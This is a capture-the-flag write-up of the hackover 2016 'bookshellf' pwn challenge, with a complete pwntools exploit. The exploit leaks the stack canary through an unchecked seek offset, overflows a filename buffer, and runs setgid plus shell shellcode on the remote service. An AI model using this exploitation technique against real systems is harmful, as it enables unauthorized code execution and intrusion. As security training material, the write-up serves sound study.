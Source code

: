 ```yaml
---
layout: post
title: "hackover 2016: bookshellf (pwn 72)"
author: wolvg, creed
categories: writeup
tags: [cat/pwn, tool/pwntools]
---
```


* **Category:** pwn
* **Points:** 72
* **Description:**


>
>Our business market analysis told us that the cyber kids of today don't read books anymore. Cyber parents are desperate about their cyber kid's education. Therefore we released a new cyber ebook reader which sends cyber waves directly to the kids brains to make them read electronically. Currently we are in negotiations with many copyright owners to provide a larger library. For now you can read the work by H.P. Lovecraft, which is public cyber domain.

>nc challenges.hackover.h4q.it 31337 

## Write-up
When we start the binary we are presented with a banner and menu.

```
 _              _       _        _ _  __
| |__  ___  ___| |__ __| |_  ___| | |/ _|
| '_ \/ _ \/ _ \ / /(_-< ' \/ -_) | |  _|
|_.__/\___/\___/_\_\/__/_||_\___|_|_|_|
                    with 20% more love!
== main menu
0) list books
1) read book
2) exit
> 
```

First we can list the available books (stored on a folder on the remote) and then read them. In order to read a book we have to enter its name, e.g., dagon.txt. The program then reads 511 bytes of the book into a buffer, prints it, and presents the user with the question wheter the user want to continue reading, stop reading or seek to a specific offset.
This offset is neither checked against the size of the book nor is it checked if it is positive. This means we can read 511 bytes from wherever we want. As the buffer is copied via strncpy we can only read from an adress until a 0-byte is encountered.
Additionally, when entering the name of book we want to read, we can overflow the 'book_to_read' buffer.

Let's checksec:

```
gdb-peda$ checksec
CANARY    : ENABLED
FORTIFY   : disabled
NX        : disabled
PIE       : disabled
RELRO     : FULL
gdb-peda$ 
```
Here's the plan:

1. leak canary and saved rbp
2. overwrite canary with leaked canary, overwrite ret address with rbp+offset, write shellcode on the stack

After some exploit fiddling we get a shell on the remote and, of course, we are here for the flag.

```
$ ls -al
total 32
drwxr-xr-x 4 root root  4096 Oct  6 19:57 .
drwxr-xr-x 4 root root  4096 Oct  6 19:57 ..
-rwxr-sr-x 1 flag flag 10232 Oct  6 19:57 bookshellf
dr-xr-xr-x 2 root root  4096 Oct  6 19:57 library
-rwxr-xr-x 1 root root    68 Oct  6 19:57 run.sh
dr-xr-xr-x 2 root flag  4096 Oct  6 19:57 secret
$ cd secret
$ ls -al
total 12
dr-xr-xr-x 2 root flag 4096 Oct  6 19:57 .
drwxr-xr-x 4 root root 4096 Oct  6 19:57 ..
-r--r----- 1 root flag   62 Oct  6 19:57 flag.txt
$ cat flag.txt
$ whoami
user
```
Ok, it looks like we are not allowed to read the flag. Back to IDA again.
Apparently there is that:

```
[...]    
seteuid(v1);
v2 = getuid();
setegid(v2);
[...]
```

So we have to change the gid to the flag gid.

```
user:x:1000:1000::/home/user/:/usr/sbin/nologin
flag:x:1001:1001::/home/flag/:/usr/sbin/nologin
```

We added the following line to our exploit

```
shellcode += asm(shellcraft.amd64.linux.setgid(1001), arch="amd64")
```
and executed it against the remote. Now we are allowed the read the flag:

```
hackover16{iN_h1s_hOusE_aT_Rlyeh_d3ad_Cthulhu_waItS_drEamIng}
```

Our final exploit:

```python
from pwn import *
import binascii

context.terminal = ['urxvtGDB.sh']
#context.log_level = 'DEBUG'
context.arch = 'amd64'

#p = process('./bookshellf')
p = remote('challenges.hackover.h4q.it', 31337)
p.recvuntil('>')

#gdb.attach(p,
#         'b *0x400fcf')
p.sendline('1')
p.recvuntil('>')

index = '30729'
p.sendline('dagon.txt')

p.recvuntil('>')
p.sendline('s' + index)
p.recvuntil('!\n\n\n')

received = p.recvline()
addr = '\x00' + received[8:13] + '\x00' * 2
addr = addr[::-1]

addr_int = int(binascii.hexlify(addr), 16) + 0x100
print'addr = 0x' + hex(addr_int)

canary = '\x00'
canary += received[0:7]


p.sendline('n') # stop reading
p.recvuntil('>')
p.sendline('1')
p.recvuntil('>')

offset = cyclic_find(0x646d6178)

payload = 'B' * 8   #rbp
payload += p64(addr_int)
shellcode = ''
shellcode += asm(shellcraft.amd64.linux.setgid(1001), arch="amd64")
shellcode += asm(shellcraft.amd64.linux.sh(), arch="amd64")

p.sendline('asdf' + 'D' * (offset - 4) + canary + payload + '\x90' * 0x200 + shellcode)
p.clean_and_log()
p.interactive()
```
